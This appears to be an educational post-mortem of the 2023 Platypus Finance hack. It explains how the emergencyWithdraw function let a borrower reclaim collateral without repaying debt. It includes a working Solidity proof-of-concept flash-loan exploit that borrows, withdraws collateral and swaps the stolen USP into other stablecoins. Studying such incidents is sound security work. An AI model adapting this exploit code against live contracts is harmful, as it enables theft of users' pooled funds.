

# Platypus Finance


## What's Platypus Finance?
Platypus Finance is a single-sided Automatic Market Maker (AMM) for stablecoins built on the Avalanche network that is designed to optimize capital efficiency

## Amount stolen
**$8.5 Million USD**

February 16, 2023  


## Vulnerability
Business Logic Flaw


## Analysis

The `emergencyWithdraw` function in the `MasterPlatypus` contract allows a user to withdraw
their LP tokens from a given pool without claiming any accrued rewards.

This function was introduced due to problems where users were unable to use `withdraw` to receive their LP tokens.

```solidity
     function emergencyWithdraw(uint256 _pid) public nonReentrant {
       PoolInfo storage pool = poolInfo[_pid];
       UserInfo storage user = userInfo[_pid][msg.sender];


       if (address(platypusTreasure) != address(0x00)) {
           (bool isSolvent, ) = platypusTreasure.isSolvent(msg.sender, address(poolInfo[_pid].lpToken), true);
           require(isSolvent, 'remaining amount exceeds collateral factor');
       }


       // reset rewarder before we update lpSupply and sumOfFactors
       IBoostedMultiRewarder rewarder = pool.rewarder;
       if (address(rewarder) != address(0)) {
           rewarder.onPtpReward(msg.sender, user.amount, 0, user.factor, 0);
       }


       // SafeERC20 is not needed as Asset will revert if transfer fails
       pool.lpToken.transfer(address(msg.sender), user.amount);


       // update non-dialuting factor
       pool.sumOfFactors -= user.factor;


       user.amount = 0;
       user.factor = 0;
       user.rewardDebt = 0;


       emit EmergencyWithdraw(msg.sender, _pid, user.amount);
   }
```

The problem is that there is only one check done by this function, it checks whether the user is solvent or not, 
using `PlatypusTreasure.isSolvent`. 


```solidity
    function _isSolvent(
       address _user,
       ERC20 _token,
       bool _open
   ) internal view returns (bool solvent, uint256 debtAmount) {
       uint256 debtShare = userPositions[_token][_user].debtShare;


       // fast path
       if (debtShare == 0) return (true, 0);


       // totalDebtShare > 0 as debtShare is non-zero
       debtAmount = (debtShare * (
      totalDebtAmount + _interestSinceLastAccrue())) / totalDebtShare;
      solvent = debtAmount <= (
             _open ? _borrowLimitUSP(_user, _token) : _liquidateLimitUSP(_user, _token));
   }
```

The underlying mechanism of this check involves the utilization of an internal function 
named `_isSolvent`. The boolean variable in this function returns is true when the user's debt is less than or equal to its USP borrow limit. 

A user is considered solvent if their collateral is sufficient to cover their debt. It's crucial to note that withdrawing collateral 
must not result in any outstanding debt. The `emergencyWithdraw` function allows users with debt to withdraw all collateral 
LP tokens gained from the flash loan without settling the previously borrowed USP associated with that collateral, leaving the protocol indebted.

In many decentralized finance (DeFi) protocols, it is typical for a liquidity pool to automatically repay 
a user's debt when they withdraw their funds. This mechanism ensures that users cannot withdraw their collateral without
settling any outstanding debt they might have incurred while using the protocol.


# proof of concept (PoC) 




1. `Flashloan` 44 Million USDC from Aave
2. `Deposit` the borrowed USDC into the `platypus` pool to get LP tokens
4. `Deposit` LP tokens to the `masterPlatypus` contract as **collateral**
5. `Borrow` as much **USP** as possible against the LP collateral
6. Execute `emergencyWithdraw` to get the LP collateral back **without** paying debt
7. Payback flash loan
8. Swap USP for Platypus pool liquidity in the form of other stablecoins.


### Flash Loan

`aaveV3.flashLoanSimple(address(this), address(USDC), 44_000_000 * 1e6, new bytes(0), 0);`
 

### Flash Loan fallback
```solidity
     function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initator,
        bytes calldata params
    ) external returns (bool) {
        USDC.approve(address(aaveV3), amount + premium);
        USDC.approve(address(Pool), amount);

        //step 2: deposit the borrowed USDC into the platypus pool to get LP tokens.
        Pool.deposit(address(USDC), amount, address(this), block.timestamp); // deposit USDC to LP-USDC


        uint256 LPUSDCAmount = LPUSDC.balanceOf(address(this));
        LPUSDC.approve(address(Master), LPUSDCAmount);

        //step 3: deposit LP tokens to the masterPlatypus contract as collateral
        Master.deposit(4, LPUSDCAmount); // deposit LP-USDC to MasterPlatypus


        PlatypusTreasure.PositionView memory Position = Treasure.positionView(address(this), address(LPUSDC));
        uint256 borrowAmount = Position.borrowLimitUSP;

        //step 4: borrow as much USP as possible against the LP collateral
        Treasure.borrow(address(LPUSDC), borrowAmount); // borrow USP from Treasure

        //step 5: execute emergecyWithdraw to get the LP colletral back wihtout paying debt
        Master.emergencyWithdraw(4);


        LPUSDC.approve(address(Pool), LPUSDC.balanceOf(address(this)));

        // step 6: use the LP tokens to withdraw the USDC initisially borrowed from aava to pay back flashloan.
        Pool.withdraw(address(USDC), LPUSDC.balanceOf(address(this)), 0, address(this), block.timestamp); // withdraw USDC from LP-USDC

        // swap USP for playtupuis pool liquidity in form of other
        swapUSPToOtherToken();
        return true;
    }

      function swapUSPToOtherToken() internal {
        USP.approve(address(Pool), 9_000_000 * 1e18);
        Pool.swap(address(USP), address(USDC), 2_500_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDC_E), 2_000_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT), 1_600_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT_E), 1_250_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(BUSD), 700_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(DAI_E), 700_000 * 1e18, 0, address(this), block.timestamp);
    }
```


## conclusion

Under normal circumstances, when borrowing USP against LP collateral, the standard protocol dictates that the withdrawal of collateral is only allowed upon the repayment of the borrowed USP. However, the exploitation of the `emergencyWithdraw` function introduces a vulnerability. By leveraging `emergencyWithdraw`, one can secure the collateral without fulfilling the obligation of repaying the borrowed funds, essentially allowing the claim of collateral while still keeping the borrowed assets. 


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Platypus_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
